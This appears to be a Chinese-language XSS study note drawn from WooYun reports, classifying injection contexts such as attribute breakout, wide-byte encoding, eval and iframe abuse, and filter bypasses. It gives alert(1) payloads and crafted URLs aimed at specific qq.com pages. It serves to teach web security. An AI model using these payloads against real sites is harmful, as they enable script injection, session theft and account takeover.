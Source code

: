 #XSS 分类

#### 整理自乌云

- 什么都没过滤的情况
- 输出在`<script><script/>`之间的

    `new Image().src="..."` 或者 `<script>alert(1)</script>`

- 输出在html里的

    `http://xxx.com/search?word=hehe`

    ```html
    <input type="text" value="hehe">
    ```

    修改为 `http://xxx.com/search?word=hehe" onclick="alert(1)`

    则变成
    ```html
    <input type="text" value="hehe" onclick="alert(1)">
    ```

- 宽字节注入

    URL 编码简介
    
    | sp  | "   |  '  |  ,  |  ;  |  <  |  >  |  ?  |  [  |
    | --- | --- | --- | --- | --- | --- | --- | --- | --- |
    | %20 | %22 | %27 | %2C | %3B | %3C | %3E | %3F | %5B |


    |  ]  |  {  |  o  |  }  | 
    | --- | --- | --- | --- |
    | %5D | %7B | %7C | %7D |

    | newline |    [   |    ]   |  &#124; |
    | ------- | ------ | ------ | ------- |
    |  space  | \&#91; | \&#93; | \&#124; |

    
    `http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%22;alert(1);//aaaaaa`
    中 `%22` 代表 `"`, 但是最后被过滤为 `&quot;`：
    ```js
    var gsTest = "&quot;;alert(1);//aaaaaa";
    ```
    预想效果:
    ```js
    var gsTest = "";alert(1);//aaaaaa";
    ```

    当html为gbxxxx系列编码时，改为如下:
    
    `http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0%22;alert(1);//aaaaaa`
    
    效果： 
    ```js
    var gsTest= "宽";alert(1);//aaaaaa
    ```
    我试了在console里试了` decodeURI('%C0%5C') `等各种组合还是不明白真相...

    作者解释：至于这个漏洞的成因，和传统的宽字节漏洞并不一样。目测应该是由于过滤双引号的正则表达式写得有问题造成的。
    并不是因为%22变成了 %5c%22,而 %c0吃掉了后面的%5c （怎么吃的啊T^T）

- 反斜杠

    ```js
    location.href="........."+"&ss=aaaa"+"&from=bbb"+"&param=";//comment
    ```
    可以用反斜杠 `\` 杀死 `"`，改成
    ```js
    location.href="........."+"&ss=aaaa\"+"&from=1//"+"&param=";
    ```
    问题： "字符串"&from=1，这样是错误的，因为&符号的优先级高， ("字符串"&from)=1 是无法进行这种赋值操作，继续修改 
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1//"+"&param=";
    ```
    问题： from未定义，加一个函数定义（js会先解析定义），继续修改
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1;function from(){}//"+"&param=";
    ```
    问题： 空格被转义为了 `&nbsp;`， /**/替换空格，继续修改 
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1;alert(1);function/**/from(){}//"+"&param=";
    ```

- 换行符

    ` %0a ` 代表html中的换行，达到如下效果：
    ```js
    //我是注释，我爱洗澡，哦～哦～哦～ [我是输出]
    ```
    变成
    ```js
    //我是注释，我爱洗澡，哦～哦～哦～ [我是输出  换行符
    alert(1);//我是输出]
    ```

- DOM XSS 显示输出
    ```js
    document.getElementById('test').innerHTML = "<img src=1>";
    document.write('....');
    $('.class-name').html('...');
    ```
    `innerHTML = <script>alert(1)</script>`无法触发，只能用`<img>`
    JS的字符串中的字符可以写为 unicode编码。
    如： `<` 可以表示为 `\u003c` , `>` 可以表示为 `\u003e`
    ```js
    document.getElementById("a").innerHTML="\u003cimg src=1\u003e";
    ```
    在JS字符串里， < 不光可以写为 \u003c，还可以写为 \x3c， > 同样可以写为 \x3e, 是16进制编码

- DOM XSS 隐式输出
    ```html
    <object><param name="movie" value="aaaaa">
    ```
    `http://qt.qq.com/video/play_video.htm?sid=aaaaaa"></object><img src="1" onerror="alert(1)`

    通过隐式闭合标签进行注入，插入诸如`<img>`标签
    ```html
    <object><param name="movie" value="aaaaa"></object><img src="1" onerror="alert(1)">
    ```
    
    由于chrome已经过滤了`< >`两个符号，所以js代码过滤的是encode后的字符，相当于没过滤
    `decodeURIComponent` 的操作，会将 `%3c`, `%3e`，又变回 `<`, `>`
    
    也可以构造URL如 `http://qt.qq.com/video/play_video.htm?sid=aaaaaa%22%3E%3C/object%3E%3Cimg%20src=1%20onerror=alert(1)%3E` 以达到目的

- DOM XSS eval函数

    先看这个url: `http://kf.qq.com/search_app.shtml?key=aaaaa`
    通过在url后面加非法字符 `\` 构造 `http://http://kf.qq.com/search_app.shtml?key=aaaaa\`
    然后从控制台定位到错误代码，发现下面这段js
    ```js
    var getarg = function() {
        var url = window.location.href;
        var allargs = url.split("?")[1]; // 获得key=aaaa
        if (allargs!=null && allargs.indexOf("=")>0) {
            var args = allargs.split("&"); // 多arguments情况
            for(var i=0; i<args.length; i++) {
                var arg = args[i].split("=");
                eval('this.'+arg[0]+'="'+arg[1]+'";'); // 直接用了this调用key
                // 然后可以在页面里执行
            }
        }
    };
    ```
    通过加分号断句，让自己的xss执行，那么可以把`this.key="aaaaa";` 变成 `this.key;alert(1);//="asdas"`
    让 `arg[0]` 变成 `key;alert(1);//`，把后面的用注释断句
    构造url: `http://kf.qq.com/search_app.shtml?key;alert(1);//=aaaaa`

    chrome中 `"` 会变成 `%22` 而失效

- DOM XSS iframe

    有时候，输出还会出现在 <iframe src="[输出]"></iframe> 。
    iframe 的 src属性本来应该是一个网址，但是iframe之善变，使得它同样可以执行javascript，
    而且可以用不同的姿势来执行。这一类问题，我将其归为[路径可控]问题。
    当然上面说到的是普通的反射型XSS。有时候程序员会使用javascript来动态的改变iframe的src属性，譬如：iframeA.src="[可控的url]"; 同样会导致XSS问题

    - onload执行js
    ```html
    <iframe onload="alert(1)"></iframe>
    ```
    - src执行js
    ```html
    <iframe src="javascript:alert(1)"></iframe>
    ```
    - chrome下data协议执行代码
    ```html
    <iframe src="data:text/html,<script>alert(1)</script>"></iframe>
    ```
    - chrome下srcdoc属性，变体
    ```html
    <iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
    ```
- DOM XSS 路径

    一些程序员会动态的加载json数据，同域的时候，可以使用ajax；而有时候，数据所在域和当前页面所在域又不一致。所以需要跨域请求。跨域请求数据的手段中，有一种叫做jsonp。

    用代码表示的话，就是
    `somescript.src="http://otherdomain.com/xx?jsonp=callback"`

    某些时候，程序员会在调用外部数据的时候带上可控的参数。

    `somescript.src="http://otherdomain.com/xx?jsonp=callback&id="+id;`

    如果这个id我们可控，将可能带来XSS问题

    1. `script src="完全可控"` ,这种就简单了，直接将地址换为我们的JS地址
    2. `script src="/path/xxx/[路径可控]/1.js"`

- XSS 过滤器绕过
    
    `<img src=1 onerror=alert(1)>` 被和谐为 `<img src=1 onerror>`
    改为 `<script src=data:,alert(1)<!--`

- 存储型 XSS

    可以套现的各种XSS技巧，HTML标签
    [HTML5 Security Cheatsheet](http://html5sec.org/)
